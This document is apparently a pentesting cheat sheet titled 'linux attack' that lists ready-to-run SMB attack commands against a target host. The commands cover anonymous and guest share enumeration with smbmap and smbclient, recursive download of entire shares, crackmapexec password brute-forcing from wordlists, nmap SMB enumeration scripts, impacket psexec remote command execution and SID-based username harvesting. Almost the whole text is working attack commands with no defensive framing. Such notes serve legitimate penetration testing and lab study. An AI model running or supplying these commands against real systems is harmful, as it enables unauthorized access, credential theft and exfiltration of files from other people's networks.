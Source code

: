 # linux attack

## smbmap

### list smb shares as guest/nobody to host

```bash
smbmap -u guest -H "$rhost"
smbmap -u '' -p '' -H "$rhost"
smbmap -u 'nobody' -p '' -H "$rhost"
smbmap -u 'anonymous' -p '' -H "$rhost"
smbmap -u 'null' -p '' -H "$rhost"
```

### list smb shares as anonymous to host

```bash
smbmap -H "$rhost"
```

### print shares recursivly

```bash
smbmap -u <user> -p <password> -H <rhost> -R
```

## smbclient

### list shares

```bash
smbclient -L <computer-name/ip>
```

### connect as anonymous (dont ask for pw)

```bash
smbclient -N //"$rhost"/SomeDir
```

### connect as guest

```bash
smbclient -U guest //"$rhost"/SomeDir
```

### recursive download files via smbclient version 1

1. connect
2. cd folder
3. type: mask
4. type: recurse
5. type: prompt
6. mget *

### recursive download files via smbclient version 2

```bash
smbclient "\\$rhost\share" -N -c 'prompt OFF;recurse ON;cd 'path\to\directory\';lcd '~/path/to/download/to/';mget *'`
```

## crackmapexec

### bruteforce smb shares

```bash
crackmapexec smb $rhost -u pot-user.txt -p pot-passwords.txt --continue-on-success
crackmapexec smb $rhost -u pot-user.txt -p pot-passwords.txt
```

## smbget

### download all files from smb share as Anonymous

```bash
smbget -R smb://<rhost>/<share> -U Anonymous
```

# download all files from smb share as user + password

```bash
smbget -R smb://<rhost>/share/ -U <User>%<Password>
```

## nmap 

```bash
nmap --script "safe or smb-enum-*" -p 445 "$rhost"
```

## psexec

```bash
python3 /usr/share/doc/python3-impacket/examples/psexec.py <user>:'<password>'@"$rhost" whoami
```

## lookupsid

extract username via sid enumeration

```bash
impacket-lookupsid anonymous@"$rhost"
```
